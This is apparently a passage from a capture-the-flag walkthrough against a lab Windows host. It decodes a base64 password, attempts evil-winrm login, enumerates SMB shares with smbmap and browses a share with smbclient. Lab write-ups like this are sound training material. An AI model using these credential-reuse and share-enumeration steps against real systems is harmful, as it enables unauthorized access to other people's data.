 # Successfully decoded the password:

```bash
└─$ echo "clk0bjVldmE=" | base64 -d
rY4n5eva                                                                                                                                                                                                                  
```
# using eveil-winrm failed as don't have powershell permissions:

```bash
└─$ evil-winrm -u r.thompson -p rY4n5eva -i 10.10.10.182
     Error: An error of type WinRM::WinRMAuthorizationError happened, message is WinRM::WinRMAuthorizationError
                                        
Error: Exiting with code 1
```

# Tried SMBMAP got read access of the following:

```bash
└─$ smbmap -u "r.thompson" -p "rY4n5eva"  -H 10.10.10.182
[+] IP: 10.10.10.182:445        Name: 10.10.10.182                                      
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        Audit$                                                  NO ACCESS
        C$                                                      NO ACCESS       Default share
        Data                                                    READ ONLY
        IPC$                                                    NO ACCESS       Remote IPC
        NETLOGON                                                READ ONLY       Logon server share 
        print$                                                  READ ONLY       Printer Drivers
        SYSVOL                                                  READ ONLY       Logon server share 
```

# Login using the smbclient:

```bash
└─$ smbclient //10.10.10.182/Data -U r.thompson          
Password for [WORKGROUP\r.thompson]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Jan 27 03:27:34 2020
  ..                                  D        0  Mon Jan 27 03:27:34 2020
  Contractors                         D        0  Mon Jan 13 01:45:11 2020
  Finance                             D        0  Mon Jan 13 01:45:06 2020
  IT                                  D        0  Tue Jan 28 18:04:51 2020
  Production                          D        0  Mon Jan 13 01:45:18 2020
  Temps                               D        0  Mon Jan 13 01:45:15 2020
```
